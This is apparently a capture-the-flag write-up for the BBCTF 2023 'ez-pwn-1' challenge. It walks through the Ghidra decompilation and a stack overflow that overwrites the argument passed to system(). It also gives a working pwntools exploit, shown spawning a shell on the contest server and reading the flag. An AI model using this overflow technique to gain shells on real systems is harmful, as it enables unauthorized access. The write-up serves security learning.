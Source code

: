 ### Binary Exploitation

### Source: BBCTF_23

### Basic File Checks

```
└─$ file ez-pwn-1 
ez-pwn-1: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=26217945613bd2e86e73d01ae50a82c592549ccc, not stripped
                                                                                                        
┌──(venv)─(mark㉿haxor)-[~/…/CTF/BCTF/pwn/ez_pwn]
└─$ checksec ez-pwn-1 
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[*] '/home/mark/Desktop/CTF/BCTF/pwn/ez_pwn/ez-pwn-1'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

With this we see all protection of the binary are enabled and we're working with a x64 binary

I'll run it to know what it does

```
┌──(venv)─(mark㉿haxor)-[~/…/CTF/BCTF/pwn/ez_pwn]
└─$ ./ez-pwn-1
Hi! would you like me to ls the current directory?
yes
Ok, here ya go!

ez-pwn-1  flag.txt
```

It takes in our input and lists the files in the current working directory

So i'll decompile using ghidra

Here's the main function

```

undefined8 main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  char local_30 [8];
  undefined2 local_28;
  undefined local_26;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_28 = 0x736c;
  local_26 = 0;
  puts("Hi! would you like me to ls the current directory?");
  read(0,local_30,0x18);
  iVar1 = strcmp(local_30,"no\n");
  if (iVar1 == 0) {
    puts("Oh, ok :(");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Ok, here ya go!\n");
  system((char *)&local_28);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

So here's what is basically happening

```
1. It saves a value in local_28 which when decoded is `ls`
2. It then prints out the question
3. After that our input is receieved and stores in local_30 
4. If our input is no it exits 
5. But if our input is any other word is runs system on the value stored in local_28 which is ls
```

So with this we know that its going to run `ls` anytime we run the binary and the input given isn't `no` 

But here's the problem! The buffer `local_30` can only hold up to 8bytes but we're given an access to write `0x18` in `local_30`              

```
read(0,local_30,0x18);
```

So basically what this can lead to is that we can overwrite `local_30` to anything and is will run system on it

With this we obviously want to call `bash` so we can get a linux bash terminal

Before that i need to get the offset from the input to the local_28 variable

Here's the stack layout

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main()
             undefined         AL:1           <RETURN>
             undefined8        Stack[-0x10]:8 local_10                                XREF[2]:     001007db(W), 
                                                                                                   0010085a(R)  
             undefined1        Stack[-0x26]:1 local_26                                XREF[1]:     001007ea(W)  
             undefined2        Stack[-0x28]:2 local_28                                XREF[3]:     001007e1(*), 
                                                                                                   001007e5(*), 
                                                                                                   00100849(*)  
             undefined1        Stack[-0x30]:1 local_30                                XREF[2]:     001007fa(*), 
                                                                                                   00100810(*)  
                             main                                            XREF[4]:     Entry Point(*), 
                                                                                          _start:001006dd(*), 00100970, 
                                                                                          00100a18(*)  
```

We see that our input starts at offset 0x30 and local_38 offset is 0x28

So the offset between this two is `0x30 - 0x28 = 0x8`

And the hex of bash is `0x62617368`

```
└─$ python3       
Python 3.10.8 (main, Oct 24 2022, 10:07:16) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> s = "bash"
>>> hex_value = ''.join([hex(ord(c))[2:] for c in s])
>>> print(hex_value)
62617368
>>> 
                                                                                                        
┌──(venv)─(mark㉿haxor)-[~/…/CTF/BCTF/pwn/ez_pwn]
└─$ echo 68736162 | xxd -r -p | rev
bash                                                                                                        
```

So here's the exploit

```
from pwn import *

#io = remote('pwn.bbctf.fluxus.co.in', 4001)
io = process('./ez-pwn-1')

payload = ""
payload += "A"*0x8
payload += p64(0x68736162) #overwrite local_28 to bash

io.send(payload)
io.interactive()
```

So lets run it locally

```
└─$ python2 exploit.py                                    
[+] Starting local process './ez-pwn-1': pid 215751
[*] Switching to interactive mode
Hi! would you like me to ls the current directory?
Ok, here ya go!

$ 
$ ls
exploit.py  ez-pwn-1  flag.txt
$ whoami
mark
$ cat flag.txt
lol
$ 
```

It worked! Now here's the exploit for the remote server

```
from pwn import *

io = remote('pwn.bbctf.fluxus.co.in', 4001)
#io = process('./ez-pwn-1')

payload = ""
payload += "A"*0x8
payload += p64(0x68736162) #overwrite local_28 to bash

io.send(payload)
io.interactive()
```

Now i'll run it 

```
└─$ python2 exploit.py
[+] Opening connection to pwn.bbctf.fluxus.co.in on port 4001: Done
[*] Switching to interactive mode
Hi! would you like me to ls the current directory?
Ok, here ya go!

$ ls -al
total 40
drwxr-x--- 1 root pwnable_user  4096 Feb  4 05:23 .
drwxr-xr-x 1 root root          4096 Feb  4 05:23 ..
-rw-r--r-- 1 root pwnable_user   220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 root pwnable_user  3771 Jan  6  2022 .bashrc
-rw-r--r-- 1 root pwnable_user   807 Jan  6  2022 .profile
drwxr-xr-x 1 root pwnable_user  4096 Feb  4 05:23 .the_flag_is_in_here
-r-xr-x--- 1 root pwnable_user 16184 Feb  3 17:43 ez-pwn-1
$ cd .the_flag_is_in_here
$ ls -al
total 12
drwxr-xr-x 1 root pwnable_user 4096 Feb  4 05:23 .
drwxr-x--- 1 root pwnable_user 4096 Feb  4 05:23 ..
-r--r----- 1 root pwnable_user   33 Feb  3 17:43 flag.txt
$ cat flag.txt;echo
flag{4_Cl45siC_M3mOry_COrrupt1ON}
$ 
```

And we're done 

<br> <br> 
[Back To Home](../../index.md)







